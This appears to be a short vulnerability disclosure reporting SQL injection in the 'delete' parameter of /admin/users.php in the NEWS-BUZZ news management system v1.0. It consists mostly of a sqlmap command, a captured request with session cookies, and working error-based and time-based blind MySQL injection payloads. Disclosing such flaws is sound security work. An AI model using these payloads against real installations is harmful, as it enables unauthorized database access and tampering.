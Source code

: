 # SQLi vulnerability in code-projects NEWS-BUZZ (News Management System) v1.0 of file /admin/users.php with param 'delete'

**vender**:

- code-projects

**SoftLink**:

- NEWS-BUZZ (News Management System)

**Vulnerable File**

- /admin/users.php

**Version**

- V1.0

### POC

```bash
sqlmap -r request.txt -p delete --technique ET --batch
```

### request.txt

```http
GET /NEWS-BUZZ/admin/users.php?delete=36 HTTP/1.1
Host: 192.168.129.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Referer: http://192.168.129.1/NEWS-BUZZ/admin/users.php?change_to_admin=36
Cookie: PHPSESSID=v43kk28qqva4ntobshvd2bhfm7; G55gnuboard5PHPSESSID=v97a0a8ojt7ipg2kkh6ts3ut73; 2a0d2363701f23f8a75028924a3af643=MTkyLjE2OC4xMjkuMQ%3D%3D; 2e61f26e7a4e8194d3d5d054536403e0=OTRjZmM1MGZiYmJkMTk4ZWFhMTRmY2Q5NWY5NWZiMmE%3D
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
```



```bash
---
Parameter: delete (GET)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: delete=36' AND GTID_SUBSET(CONCAT(0x716b6b7a71,(SELECT (ELT(7449=7449,1))),0x71626b7871),7449)-- mCCJ

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: delete=36' AND (SELECT 1134 FROM (SELECT(SLEEP(5)))HWis)-- DXlT
---
```



![image-20250531011824938](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505310118032.png)